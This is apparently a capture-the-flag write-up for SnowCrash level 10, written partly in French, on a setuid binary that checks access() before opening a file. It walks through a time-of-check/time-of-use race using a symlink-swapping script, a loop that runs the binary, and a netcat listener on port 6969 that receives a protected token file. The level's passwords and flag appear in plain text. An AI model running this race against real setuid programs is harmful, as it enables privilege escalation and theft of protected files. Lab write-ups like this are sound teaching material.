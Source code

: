 # Level 10

</br></br>

## file list in home

```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

</br></br>

## execute file level10

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```
"./level10 file host" signifie que l'on doit mettre file et host en tant que parametre

</br></br>

## ltrace level10

```zsh
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

## strings level10

```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
...
...
```

Connecter à 6969, on a besoin d'écouter la porte 6969

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access

```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

on peut voir "security hole"!!!!!

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## symbolic link et race condition

faire fichier link
ce fichier est symbolic link pour open (level10) et pour executer (token)

```zsh
level10@SnowCrash:/tmp/link$ vim makeSymLink.sh
level10@SnowCrash:/tmp/link$ ls
makeSymLink.sh
level10@SnowCrash:/tmp/link$ chmod +x ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
```

```sh
#!/bin/bash

while true
do
  ln -fs ~/level10 ./link
  ln -fs ~/token ./link
done
```

</br></br>

## execute

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ while true; do ./level10 /tmp/link/link localhost; done
```

```zsh
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link^C
```

```zsh
level10@SnowCrash:~$ nc -lk 6969
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
0����Lx���p��������������zR|
                            P���F
                                 J
��                                tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```

</br></br>

## get token

```zsh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```
